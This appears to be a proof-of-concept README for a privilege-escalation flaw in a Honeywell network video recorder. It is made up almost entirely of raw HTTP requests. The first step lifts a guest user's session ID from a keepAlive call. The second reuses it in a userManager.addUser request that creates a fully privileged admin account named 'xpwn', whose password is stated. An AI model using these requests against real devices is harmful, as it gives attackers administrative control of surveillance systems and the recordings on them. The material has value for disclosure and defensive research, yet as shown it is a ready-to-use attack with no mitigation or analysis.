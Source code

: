 # Honeywell_NVR_vul


### First, attain the SessionID for a guest user.
We can find the SessionID from any http request. Such as:  
POST https://192.168.1.104/RPC2 HTTP/1.1  
Accept: text/javascript, text/html, application/xml, text/xml  
X-Requested-With: XMLHttpRequest  
X-Request: JSON  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Referer: https://192.168.1.104/  
Accept-Language: zh-cn  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko  
Host: 192.168.1.104  
Content-Length: 84  
DNT: 1  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DHLangCookie30=%2Fweb_lang%2FEnglish.txt; DhWebSnapPath=C%3A%5CPictureDownload%5C; DhWebRecordPath=C%3A%5CRecordDownload%5C; DhWebClientSessionID=113826814; DhWebCookie=%7B%22username%22%3A%22guest%22%2C%22talktype%22%3A%221%22%2C%22loginid%22%3A633443784%7D

{"method":"global.keepAlive","params":{"timeout": 300},"session":113826814,"id":112}  

"session":113826814 is the SessionID for the current guest user.


### Second, create the admin user.
send the special http request with above mentioned SessionID:
POST https://192.168.1.104/RPC2 HTTP/1.1  
x-requested-with: XMLHttpRequest  
Accept-Language: zh-cn  
Accept: text/javascript, text/html, application/xml, text/xml
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)  
Host: 192.168.1.104  
Content-Length: 759  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DhWebClientSessionID= 113826814

{"method":"userManager.addUser","params":{"user":{"Id":3,"Group":"admin","Name":"xpwn","Password":"DD75DAB01878D84C963128764AB24DD3","Memo":"","Sharable":false,"AuthorityList":["Account","GeneralConf","OutputConfig","TVSet","ComConf","PtzConfig","AutoMaintain","bkConfig","OfflineLoginedUser","DefaultConfig","SysUpdate","MPTZ","Sysinfo","QueryLog","Alarm","Record","Backup","RecordConf","MHardisk","DataFormat","AlarmConf","VideoConfig","NetConf","RemoteDevice","EncodeConf","DelLog","ShutDown","Replay_01","Replay_02","Replay_03","Replay_04","Replay_05","Replay_06","Replay_07","Replay_08","Monitor_01","Monitor_02","Monitor_03","Monitor_04","Monitor_05","Monitor_06","Monitor_07","Monitor_08","Monitor","Replay","CtrPanel"]}},"session": 113826814,"id":271}

"session": 113826814 is the SessionID we get from the first step.


Now, the admin account with name: xpwn and password:Pwd@12345 is created. We can log in to the device with this account.

